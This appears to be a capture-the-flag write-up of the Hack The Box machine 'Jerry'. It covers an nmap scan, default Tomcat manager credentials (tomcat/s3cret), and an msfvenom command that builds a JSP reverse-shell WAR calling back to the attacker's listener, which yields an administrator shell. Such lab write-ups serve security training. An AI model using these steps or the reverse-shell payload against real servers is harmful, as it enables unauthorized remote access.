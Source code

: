 # **Machine Info**

| OS        | Window   |
| --------- | -------- |
| **Level** | **Easy** |


# **Walkthrough**

1. Nmap scan result in the found of Tomcat service Website running in 8080 port.
```
	┌─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $cat serviceScan.nmap 
		# Nmap 7.94SVN scan initiated Sat Jan 11 00:40:06 2025 as: nmap -sC -sV -p- -Pn --min-rate 5000 -oA serviceScan 10.10.10.95
		Nmap scan report for 10.10.10.95 (10.10.10.95)
		Host is up (0.22s latency).
		Not shown: 65534 filtered tcp ports (no-response)
		PORT     STATE SERVICE VERSION
		8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
		|_http-title: Apache Tomcat/7.0.88
		|_http-favicon: Apache Tomcat
		|_http-server-header: Apache-Coyote/1.1
		
		Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
		# Nmap done at Sat Jan 11 00:41:00 2025 -- 1 IP address (1 host up) scanned in 53.90 seconds

```

2. Home page of the website:
	1. ![](Assets/Pasted%20image%2020250225223458.png)
	
3. When visiting the manager app, It ask for credential. Cancelling the login revel the credential:
	1. Username -> tomcat
	2. Password -> s3cret 
	3. ![](Assets/Pasted%20image%2020250225223328.png)

4. Landing page after loggin in:
	   ![](Assets/Pasted%20image%2020250225223629.png)

5. The page seem to be allowing the user to upload .war file. 
	1. ![](Assets/Pasted%20image%2020250225223648.png)

6. Then i generate a msfvenom .war file paylaod for reverse shell. and named it payload.war.
	- ┌─[✗]─[ghoth@parrot]─[~/HTB/machines/jerry]
		└──╼ $msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=8888 -f war -o payload.war
		Payload size: 1096 bytes
		Final size of war file: 1096 bytes
		Saved as: payload.war

7. The uploaded file seem to be appear in the main page table, where we can click and run.
	1. ![](Assets/Pasted%20image%2020250225223716.png)

8. Before executing the payload, I had already started my netcat server listening in the port 8888. And we got the connection after executing the payload. 
		![](Assets/Pasted%20image%2020250225223524.png)

9. The shell we got seem to have administrator authority (High authority).
		![](Assets/Pasted%20image%2020250225223545.png)

10. Then we found the flag in the flag directory in desktop of Administrator user.  
		![](Assets/Pasted%20image%2020250225223608.png)
	


